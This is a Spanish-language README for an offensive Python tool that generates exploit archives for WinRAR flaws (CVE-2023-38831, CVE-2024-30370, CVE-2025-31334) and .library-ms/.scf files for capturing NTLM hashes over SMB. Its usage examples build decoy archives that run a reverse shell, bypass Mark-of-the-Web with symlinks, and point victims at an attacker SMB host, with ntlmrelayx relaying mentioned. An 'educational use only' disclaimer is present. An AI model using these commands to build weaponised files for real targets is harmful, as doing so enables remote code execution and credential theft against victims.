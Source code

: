 # 🧨 WinRAR & Windows Library Exploit Generator

**Generador de exploits para vulnerabilidades conocidas en WinRAR y Windows Library.**

> ⚠️ **Este proyecto es solo para uso educativo y entornos con autorización.**

---

## 🧩 CVEs Soportadas

| CVE / Técnica              | Descripción                                                                 |
|---------------------------|-----------------------------------------------------------------------------|
| **CVE-2023-38831**         | Ejecución remota (RCE) al hacer clic en un archivo señuelo en WinRAR       |
| **CVE-2024-30370**         | Bypass del Mark-of-the-Web usando symlink                                  |
| **CVE-2025-31334**         | WinRAR ejecuta un archivo real disfrazado sin advertencia                  |
| **Library `.library-ms`** | Windows abre conexión SMB externa al abrir archivo `.library-ms`           |
| **SCF (`.scf`)**           | Carga de íconos desde red SMB para capturar hashes                         |

---

## 🧰 Requisitos

- Python 3.7 o superior
- [`rar.exe`](https://www.win-rar.com/download.html) en el `PATH` (solo para `cve-dual`)
- Acceso con permisos de Administrador para crear symlinks en Windows

---

## ⚙️ Modo de uso general

```bash
python main.py [modo] [opciones]
```

---

## 📌 Modo: `cve-2023-38831`

### ▶️ Descripción:
Exploit que manipula un archivo `.zip` para que al abrir un archivo señuelo, se ejecute un script malicioso.

### 🧪 Ejemplo:

```bash
python main.py cve-2023-38831 \
  --bait documento.pdf \
  --switch reverse_shell.cmd \
  --output exploit_38831.rar
```

---

## 📌 Modo: `cve-dual`

### ▶️ Descripción:
Crea un archivo `.rar` con un symlink y un ejecutable que evaden la advertencia MotW en Windows.

### 🧪 Ejemplo:

```bash
python main.py cve-dual \
  --payload payload.exe \
  --alt-name "seguro.exe" \
  --symlink-name "runme.exe" \
  --output exploit_dual.rar
```

---

## 📌 Modo: `library`

### ▶️ Descripción:
Crea un archivo `.library-ms` (y opcionalmente `.scf`) que se conecta a un servidor SMB remoto.

### 🧪 Ejemplo básico:

```bash
python main.py library \
  --file-name documentos \
  --ip 192.168.1.100 \
  --type basic \
  --output library_exploit.zip
```

### Tipos soportados:
- `basic` → Exploit simple con `.library-ms`
- `advanced` → Exploit avanzado con metadata extendida
- `scf` → Combinación de `.library-ms` y `.scf` (carga de íconos remota)
- `--commands` → Muestra comandos sugeridos para `ntlmrelayx` y payloads PowerShell

---

## 📌 Modo: `interactive`

### ▶️ Descripción:
Guía paso a paso para generar exploits de tipo Library desde la consola.

### 🧪 Ejemplo:

```bash
python main.py interactive
```

---

## 🧪 Payload de prueba (opcional)

Para pruebas seguras, puedes dejar que el script cree un ejecutable falso:

```bash
python main.py cve-dual --payload dummy.exe
```



---

## 👨‍💻 Autor

Creado con fines de investigación ofensiva y defensa activa.

---
